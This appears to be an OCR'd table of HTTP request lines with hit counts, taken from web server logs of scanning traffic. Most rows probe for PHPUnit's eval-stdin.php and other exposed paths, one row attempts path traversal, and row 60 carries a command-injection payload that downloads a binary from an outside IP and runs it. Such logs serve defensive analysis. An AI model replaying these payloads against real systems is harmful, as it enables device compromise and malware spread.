 |  49 |                     5 | GET /cms/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                       |
|  50 |                     5 | GET /crm/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                       |
|  51 |                     5 | GET /blog/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                      |
|  52 |                     5 | GET /backup/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                    |
|  53 |                     5 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                          |
|  54 |                     5 | GET /panel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                     |
|  55 |                     5 | GET /www/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                       |
|  56 |                     5 | GET /public/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                    |
|  57 |                     5 | GET /pass HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
|  58 |                     5 | GET /upl.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                      |
|  59 |                     5 | GET /geoip/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
|  60 |                     5 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.121.15.223%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                |
|  61 |                     5 | GET /form.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
|  62 |                     5 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                       |
|  63 |                     5 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                            |